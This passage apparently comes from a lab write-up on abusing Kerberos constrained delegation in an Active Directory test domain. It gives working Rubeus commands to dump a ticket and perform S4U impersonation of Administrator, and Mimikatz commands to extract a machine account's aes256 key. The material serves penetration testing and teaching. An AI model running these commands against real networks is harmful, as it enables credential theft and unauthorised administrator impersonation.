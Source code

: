 ``` 

We somewhat need to get hold on a ```TGT``` from the account that holds the Constrained Delegation rights. We can achieve that if we have the cleartext password or NT hash of the affected account, or directly dump the ```TGT``` with Rubeus if we have according privileges.  

#### Rubeus way  

First we look for the ```krbtgt``` ticket for the user ```win10x64$```

```
Rubeus.exe triage
```
<img src="/images/2022-05-19/dump.png">

Then we dump the ticket from the luid:  

```
Rubeus.exe dump /luid:0x12d1f7
```
<img src="/images/2022-05-19/dump1.png">

And finally use that ticket to do the S4U magic:  

```
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/epo.mcafeelab.local /ticket:doIFRjCCBUKgAwIBB...BTA== /ptt
```
<img src="/images/2022-05-19/cd1.png">

<img src="/images/2022-05-19/cd2.png">

We can see with ```klist``` that we successfully obtained a forwardable ticket for cifs/epo.mcafeelab.local for the user ```Administrator```, with which we can access ```epo``` now via ```cifs``` but not e.g. ```wsman```:  

<img src="/images/2022-05-19/cd3.png">

#### [Mimikatzi](https://github.com/gentilkiwi/mimikatz) way

This time we are going to obtain the aes256 key of the machine account:

```
privilege::debug
token::elevate
sekurlsa::ekeys
```
<img src="/images/2022-05-19/mimi1.png">

<img src="/images/2022-05-19/mimi2.png">

For whatever reason the output of mimikatz would not show me the correct descriptions. There were people in the past with the same [problem](https://github.com/gentilkiwi/mimikatz/issues/314). However the first entry under the ```Key List``` section is in fact the aes256 key.  

Then it's nearly the same with Rubeus as before, but this time with the system account as user and aes256 key as the "password":  

```
Rubeus.exe s4u /impersonateuser:god /msdsspn:cifs/epo.mcafeelab.local /user:win10x64$ /aes256:4b55f...fd82 /ptt
